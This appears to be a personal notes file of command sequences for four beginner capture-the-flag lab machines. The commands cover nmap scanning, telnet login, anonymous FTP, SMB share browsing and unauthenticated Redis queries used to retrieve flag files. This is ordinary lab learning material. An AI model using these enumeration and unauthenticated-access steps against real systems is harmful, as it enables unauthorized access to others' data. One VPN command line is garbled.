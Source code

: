 ## Meow challenge:
- sudo openvpn {filename.opvn}
- ping {target_ip}
- sudo nmap -sV 10.129.239.25
- telnet {target_ip}


## Fawn challenge
- sudo nmap {target_ip}
- sudo nmap -sV {target_ip}
- sudo apt install ftp -y
- ftp -h
- ftp {target_ip}
  `username: anonymous
  `password:
- ftp> help
- ftp> ls
- ftp> get flag.txt
- ftp> bye
- cat flag.txt


## Dancing challenge:
- sudo nmap -sV {target_ip}
- sudo apt-get install smbclient
- smbclient -L 10.129.239.172
- smbclient \\\\10.129.239.172\\ADMIN$
- smbclient \\\\10.129.239.172\\C$
- smbclient \\\\10.129.239.172\\WorkShares
- smb: \> help
- smb: \> ls
- smb: \> cd Amy.J
- smb: \Amy.J\> ls
- smb: \Amy.J\> get worknotes.txt
- smb: \Amy.J\> cd ..
- smb: \> cd James.P
- smb: \James.P\> ls
- smb: \James.P\> get flag.txt
- cat flag.txt


## Redeemer challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- nmap -p- -sV 10.129.28.47
- sudo apt install redis-tools
- redis-cli --help
- redis-cli -h 10.129.28.47
- 10.129.28.47:6379> info
- 10.129.28.47:6379> select 0
- 10.129.28.47:6379> keys *
- 10.129.28.47:6379> get stor
- 10.129.28.47:6379> get temp
- 10.129.28.47:6379> get numb
- 10.129.28.47:6379> get flag
